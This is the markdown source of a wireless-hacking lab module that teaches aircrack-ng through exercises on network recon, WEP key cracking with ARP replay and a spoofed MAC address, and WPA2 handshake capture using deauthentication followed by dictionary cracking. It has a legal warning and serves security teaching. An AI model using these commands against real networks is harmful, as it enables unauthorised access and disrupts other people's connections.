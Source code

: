 ```yaml
---
title: Wireless
layout: module
---
```


# Hacking Wireless Networks

IMPORTANT!: Gaining access to networks without permission is considered
an illegal act or crime in most countries. Know the law and obey.

*Aircrack-ng* [http://www.aircrack-ng.org/](http://www.aircrack-ng.org/) is
a set of tools for auditing wireless networks. The goal of these
exercises is to introduce some of their capabilities. The man pages are
very thorough and are more than enough to complete the exercises without
"cheating". You are encouraged to find the solutions in the man pages.
Please pay attention to the large variety of features the toolset offers
as we will only be able to cover a tiny fraction.

**You will need to be root to use most of these utilities.**

## Exercise 1: Recon

### Task 1

Use *airodump-ng* to find our targets' BSSIDs, channels, and security
settings given their ESSIDs: **seccon_wep** and **seccon_wpa**. Make
note of these details, you will need them later. Stop the process when
you are done.

In order to sniff a wireless network, the adapter needs to be put into
monitor mode. Some processes may interfere with the adapter while in
monitor mode.

{% capture code %}
airmon-ng check
{% endcapture %}
{% include copy-paste.html title="Airmon Check" code=code %}

List the processes that may interfere. It is best to kill those in
normal testing. **Do not kill any processes for this lab (e.g. dhclient
& wpa_supplicant).**

{% capture code %}
airmon-ng check kill
{% endcapture %}
{% include copy-paste.html title="Killing conflicting processes" code=code %}

This command would kill potentially interfering processes, but don't
use it for this lab.

Put the wireless interface wlan0 in monitor mode. A new interface
wlan0mon0 will be created.

{% capture code %}
airmon-ng start wlan0
{% endcapture %}
{% include copy-paste.html title="Configuring the wireless interface wlan0 in monitor mode." code=code %}

Use airodump-ng.

{% capture code %}
airodump-ng --essid seccon_wep --essid seccon_wpa wlan0mon
{% endcapture %}
{% include copy-paste.html title="Using airodump-ng" code=code %}

## Exercise 2 : Cracking WEP

### Task 1

Run airodump-ng to start capturing packets on the target network
utilizing WEP. Let this capture continue.

{% capture text %}
<pre>
    airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

Use aircrack-ng PTW (Pyshkin, Tews, Weinmann) method to crack the WEP
PSK.

{% capture text %}
<pre>
       # -a 1 specifies we are cracking WEP
       aircrack-ng -a 1 [-b $target_bssid] $capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Anywhere from 20k-60k IVs will be needed. Use aireplay-ng to spoof an
associated station and replay ARP frames to increase the data rate.

{% capture text %}
<pre>
      # -3 indicates replay ARP frames
      aireplay-ng -3 -b $target_bssid -h $spoofed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

## Exercise 3 : Obtaining the WPAv2 PSK

### Task 1

Use airodump-ng to capture a WPA handshake corresponding to a target
network.

{% capture text %}
<pre>
      # Wait until the WPA handshake appears in the top line.
      airodump-ng --write $output_cap_file --channel $target_channel --bssid $target_bssid wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 2

If the handshake doesn't reveal itself passively, use aireplay-ng to
deauthenticate an associated station. This will force a handshake to
occur.

{% capture text %}
<pre>
       # -0 1 indicates send one set of deauth packets
       aireplay-ng -0 1 -a $target_bssid -c $authed_station_mac wlan0mon
</pre>
{% endcapture %}
{% include cheat.html text=text %}

------------------------------------------------------------------------

### Task 3

Use *aircrack-ng* to find the WPA PSK using the
dictionary */usr/share/wordlists/fasttrack.txt*.

{% capture text %}
<pre>
      # -a 2 specifies we are looking for a WPA handshake
      aircrack-ng -a 2 [-b $target_bssid] -w /usr/share/wordlists/fasttrack.txt $handshake_capture_file
</pre>
{% endcapture %}
{% include cheat.html text=text %}
